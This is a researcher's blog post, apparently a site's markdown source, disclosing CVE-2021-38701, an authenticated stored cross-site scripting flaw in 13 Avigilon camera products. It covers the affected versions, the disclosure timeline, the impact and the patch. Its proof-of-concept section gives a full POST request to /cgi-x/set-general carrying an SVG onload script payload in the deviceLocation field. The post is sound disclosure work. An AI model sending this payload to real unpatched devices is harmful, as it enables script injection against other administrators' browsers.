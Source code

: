 ```yaml
---
layout: cve
title:  "CVE-2021-38701 - Avigilon Stored Cross Site Scripting"
date: 2021-10-23 09:34:43 -0400
cve: CVE-2021-38701
nist: https://nvd.nist.gov/vuln/detail/CVE-2021-38701
exploit_db: https://www.exploit-db.com/exploits/50227
img: /assets/img/posts/2021-10-23-CVE-2021-38701/avigilon.png
categories: 
author: Tyler Butler
description: Stored cross-site scripting (XSS) in 13 different Avigilon products enables remote authenticated attackers to inject arbitrary javascript in the embedded webserver via the deviceLocation settings parameter
lead: Stored cross-site scripting (XSS) in 13 different Avigilon products enables remote authenticated attackers to inject arbitrary javascript in the embedded webserver via the deviceLocation settings parameter
tag: featured 

hero:
  image: /assets/uswds/img/camera.png
  callout:
    alt: "Avigilon"
    text: "Stored Cross Site Scripting"
  button:
    href:
    text:
    number:
    enable: false
  link:
    text: Link to more about that priority
    href: /link/
  content: In May, security researcher Tyler Butler disclosed a stored cross-site scripting vulnerability in 13 different networked camera devices from manufacturer Avigilon.
---  
```


# CVE-2021-38701 - Avigilon Stored Cross-Site Scripting

![](/assets/img/posts/2021-10-23-CVE-2021-38701/avigilon.png)


## Overview  

In May 2021, I disclosed a stored cross-site scripting vulnerability affecting 13 different networked camera devices from [Avigilon](https://www.avigilon.com/), a canadian subsidiary of [Motorolasolutions](https://www.motorolasolutions.com/) focused on network video management software and hardware, surveillance cameras, and access control products. The vulnerability is of low risk to device owners, as it is only exploitable by malicious users with access to the device's network and administrative credentials and because some of the devices effected were discontinued at the time of discovery. This disclosure comes as part of my iOT device research series from [Obsrva](https://obsrva.org/) with previous vulnerabilites including [CVE-2021-35956](https://tbutler.org/2021/06/28/cve-2021-35956), a stored XSS vulnerabilityon enviormental monitoring devices from AKCP, and [CVE-2021-3441](https://tbutler.org/2021/04/29/hp-officejet-4630), a stored XSS vulnerability on certain HP Printers. Avigilon was an excellent partner in the vulnerability disclosure process, providing frequent updates on their process, and adding me to the [Motorolasolutions Security Hall Of Fame](https://www.motorolasolutions.com/en_us/about/security-vulnerability/hall-of-fame.html) for following their[ vulnerability disclosure policy](https://www.motorolasolutions.com/en_us/about/security-vulnerability/guidelines.html). In this post, I'll describe the vulnerability and the disclosure process.  

### List of Affected Devices 

|  Device 	|  Version 	|
|---	|---	|
| [H4A Box, Bullet and Dome cameras](https://www.avigilon.com/products/cameras-sensors/discontinued-products/h4a "https://www.avigilon.com/products/cameras-sensors/discontinued-products/h4a")  	|  Cameras on 4.4.0 branch: 4.4.0.84 or later. Cameras on 4.4.4 branch: 4.4.4.84 or later 	|
| [H4 Pro cameras](https://www.avigilon.com/products/cameras-sensors/discontinued-products/h4pro "https://www.avigilon.com/products/cameras-sensors/discontinued-products/h4pro")   	|  4.4.0.80 	|
| [H4 Fisheye](https://www.avigilon.com/products/cameras-sensors/discontinued-products/h4f "https://www.avigilon.com/products/cameras-sensors/discontinued-products/h4f")  	|   4.12.0.60	|
| [H4 Mini Dome](https://www.avigilon.com/products/cameras-sensors/h4-mini-dome#downloads "https://www.avigilon.com/products/cameras-sensors/h4-mini-dome#downloads")   	|  4.14.0.102 	|
| [H4SL Bullet and Dome cameras](https://www.avigilon.com/products/cameras-sensors/discontinued-products/h4sl "https://www.avigilon.com/products/cameras-sensors/discontinued-products/h4sl")  	|  4.14.0.102  	|
| [HD Multisensor](https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/mh "https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/mh") 	|  3.28.0.166 	|
| [H3A Bullet and Dome cameras](https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/h3-h264 "https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/h3-h264") 	|  3.28.0.168 	|
| [H3 Microdome](https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/h3-micro-dome-documentation "https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/h3-micro-dome-documentation") 	|   2.6.0.180	|
| [H3 Bullet](https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/h3-h264 "https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/h3-h264")  	|  2.6.0.180 	|
| [H3 PTZ](https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/ptz "https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/ptz")   	|  2.6.0.180 	|
| [H3 Box and Dome cameras](https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/h3-h264 "https://www.avigilon.com/products/cameras-sensors/discontinued-products/h3/h3-h264")  	|  2.6.0.180 	|
| [H.264 Encoder](https://www.avigilon.com/products/video-infrastructure/enc#downloads "https://www.avigilon.com/products/video-infrastructure/enc#downloads")   	|  2.2.0.86	|
| [Avigilon Presence Detector](https://www.avigilon.com/products/cameras-sensors/apd#downloads "https://www.avigilon.com/products/cameras-sensors/apd#downloads")   	|  4.18.0.36 	|


## Disclosure Process and Timeline  

From the time I disclosed the vulnerability in mid-May, Avigilon took a little over 5 months to release a patch and public details on their support page. While this was quite some time, the disclosure management team was one of the most professional and reasonable teams I've delt with, due in part because of constant feedback and updates. The team had clear guidelines to follow, provided exact dates for key parts of the process, and was proactive and honest when experiencing delays. The following timeline represents only the major milestones during the disclosure process.

+ May 12, 2021 - I submit the vulnerability disclosure to [security@motorolasolutions.com](mailto:security@motorolasolutions.com)
+ May 25, 2021 - An Avigilon representative provides an update, stating they plan to roll out a fix and provides details on how to be added to the Bug Bounty Hall of Fame
+ August 26, 2021 - An Avigilon representative provides an update, stating they have reserved CVE-2021-38701 and the Product Management team is planning how to publish the CVE
+ September 1, 2021 - I receive a $250.00 Bug Bounty Payment from Motorolasolutions
+ October 21, 2021 - Avigilon publishes the vulnerability information on thei [support page](https://support.avigilon.com/s/feed/0D54y00006l9eCMCAY "Oct 21, 2021, 4:52 PM")

## Vulnerability Details    

![](/assets/img/posts/2021-10-23-CVE-2021-38701/poc.png)


The effected Avigilon products are vulnerable to an authenticated stored cross-site scripting vulnerability via the deviceLocation parameter of the general settings. Malicious users can inject a payload via a POST request to `/cgi-x/set-general` injecting an arbitrary javascript payload such as ```deviceLocation=Unknownn<svg/onload=alert`xss`>```.   Once requested, the payload is triggered when a user visits the about page, located at https://target/web/about.shtml/. 

### Proof of Concept   

```yaml
POST /cgi-x/set-general HTTP/1.1
Host: [target]
User-Agent: Mozilla/5.0 (X11; U; Linux x86_64; en-US) AppleWebKit/540.0 (KHTML, like Gecko) Ubuntu/10.10 Chrome/8.1.0.0 Safari/540.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 179
Origin: https://[target]
Authorization: Digest username="admin", realm="Avigilon-101801152931", nonce="7l3kN2ccgJNvMMTp6I3MadF79jYSv4OKWN74r625170600", uri="/cgi-x/set-general", response="8f15b654e68e6e288dc0a9145bcec2ad", qop=auth, nc=0000002b, cnonce="aaa367371e99e903"
Referer: https://[target]/web/setup-general.shtml
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close

deviceName=[DEVICE NAME]&deviceLocation=Unknownn<svg/onload=alert`xss`>&disableStatusLeds=0&enableInputTermination0=1&enableInputTermination1=1&enableInputTermination2=1&enableInputTermination3=1
```


### Impact  

While CVE-2021-38701 has yet to be issued an [official CVSS score](https://nvd.nist.gov/vuln/detail/CVE-2021-38701), the impact of the vulnerability is assessed to be low. The vulnerability requires both administrative credentials and access to the affected device's network, reducing potential attackers to insider threats and threat actors who've already breached the network perimiter. If exploited, other administrative users who visit the affected device's dashboard could have arbitrary javascript executed in their browser. Malicious users can use this vulnerability to fingerprint victim browsers, steal cookies, and use browser exploitation tools such as [BEEF](https://beefproject.com/) to further exploit users. 

## Remediation
As of October 21, 2021, Avigilon has released a patch for all 13 effected devices. More information can be found on Avigilon's official support page, [/support.avigilon.com](https://support.avigilon.com/s/feed/0D54y00006l9eCMCAY).    

## About the Researcher  

Tyler gained his undergraduate degree in Security and Risk Analysis from The Pennsylvania State University and started his cyber security career at Deloitte where he served clients as a mainframe application developer, penetration tester, and red team operator. Tyler credited with several CVE's including CVE-2021-35956, CVE-2021-344, and CVE-2021-38701, and was nominated to the Motorola Solutions Bug Bounty Hall of Fame. In 2021, Tyler started [Obsrva](https://obsrva.org/) and independent vulnerability research outlet focusing on finding, disclosing, and triaging vulnerabilities in open-source and iOT devices. Tyler currently holds the eWPT and eJPT certifications, and is working towards his goal of acheiving the Offensive Security Certified Professional (OSCP) certification. For other research details, or for general inqueries, please reach out via email at [tyler@obsrva.org](mailto:tyler@obsrva.org)
